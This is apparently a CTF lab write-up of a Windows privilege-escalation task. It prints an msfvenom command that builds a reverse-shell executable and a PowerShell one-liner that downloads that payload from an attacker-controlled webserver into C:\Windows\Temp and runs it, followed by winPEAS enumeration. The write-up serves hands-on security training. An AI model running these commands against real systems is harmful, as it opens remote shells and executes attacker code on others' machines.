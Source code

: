 * * * 

## Task 5 - Privilege Escalation Without Metasploit 

In this task we will escalate our privileges without the use of meterpreter/metasploit! 

Firstly, we will pivot from our netcat session that we have established, to a more stable reverse shell.

Once we have established this we will use winPEAS to enumerate the system for potential vulnerabilities, before using this information to escalate to Administrator.

![0xskar](/assets/winpeas.png)

##   Answer the questions below

**Now we can generate a more stable shell using msfvenom, instead of using a meterpreter, This time let's set our payload to windows/shell_reverse_tcp**

- ``msfvenom -p windows/shell_reverse_tcp LHOST=10.x.x.x LPORT=6666 -f exe -o reverse_privesc.exe``

After generating our payload we need to pull this onto the box using powershell.

Tip: It's common to find C:\Windows\Temp is world writable!

1. setup webserver ``python3 -m http.server``
2. powershell over to target ``powershell -c "Invoke-WebRequest -Uri '10.x.x.x:8000/reverse_privesc.exe' -OutFile 'C:\Windows\Temp\shell.exe'"``
3. run our shell ``shell.exe``

Now you know how to pull files from your machine to the victims machine, we can pull winPEAS.bat to the system using the same method! (You can find winPEAS here)

WinPeas is a great tool which will enumerate the system and attempt to recommend potential vulnerabilities that we can exploit. The part we are most interested in for this room is the running processes!

Tip: You can execute these files by using .\filename.exe

Using winPeas, what was the Original Install time? (This is date and time)

- 8/3/2019, 10:43:23 AM (couldn't find this in winpeas for the life of me but systeminfo)
